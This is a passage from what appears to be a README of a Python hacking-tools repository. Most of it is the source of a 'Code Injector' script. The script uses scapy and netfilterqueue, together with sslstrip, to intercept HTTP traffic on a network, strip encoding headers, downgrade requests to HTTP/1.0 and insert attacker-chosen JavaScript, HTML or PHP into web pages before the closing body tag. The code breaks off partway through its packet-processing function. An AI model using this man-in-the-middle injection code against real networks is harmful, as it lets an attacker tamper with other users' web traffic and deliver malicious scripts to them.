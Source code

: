```python
    print("\n[-] Detected CTRL + C ......\n[+] Exitting!")
```



### 2. Code Injector:

_[Source](https://github.com/m3rcer/Python-Hax/blob/main/CodeInjector/README.md)_

- We changed the sport and dport definitions to match sslstrip's port definitions (port 10000).

- We replaced the load for the request from "HTTP/1.1 to HTTP/1.0" to get the response as a whole and not chunked.

```python
#!/usr/bin/env python

import scapy.all as scapy
import netfilterqueue
import argparse
import re


# Parse Args
def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-f", "--file-to-inject", dest="file", help="File/Code to Inject", type=str)
    options = parser.parse_args()
    if not options.file:
        # code to handle error
        parser.error("\n[-] Please specify a valid file with code to inject(js,HTML,php...),  use --help for info.")
    File = open(options.file, 'r')
    f = File.readlines()
    code = ""
    for line in f:
        code += line.strip()
    return(code)

# Alter packets load
def set_load(packet, load):
    packet[scapy.Raw].load = load
    del packet[scapy.IP].len
    del packet[scapy.TCP].chksum
    del packet[scapy.IP].chksum
    return packet


def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.Raw):
        #print(scapy_packet.show())
        try:
            load = scapy_packet[scapy.Raw].load.decode()
            # using sslstrip
            if scapy_packet[scapy.TCP].dport == 10000:
                print("\n[+] Request from: " + scapy_packet[scapy.IP].src)
                load = re.sub("Accept-Encoding:.*?\\r\\n", "", load)
                # Using HTTP/1.0
                load = load.replace("HTTP/1.1", "HTTP/1.0")
            # using sslstrip
            elif scapy_packet[scapy.TCP].sport == 10000:
                print("[+] Response from: " + scapy_packet[scapy.IP].src)
                injection_code = code
                # Appends injected code before terminating </body> tag
```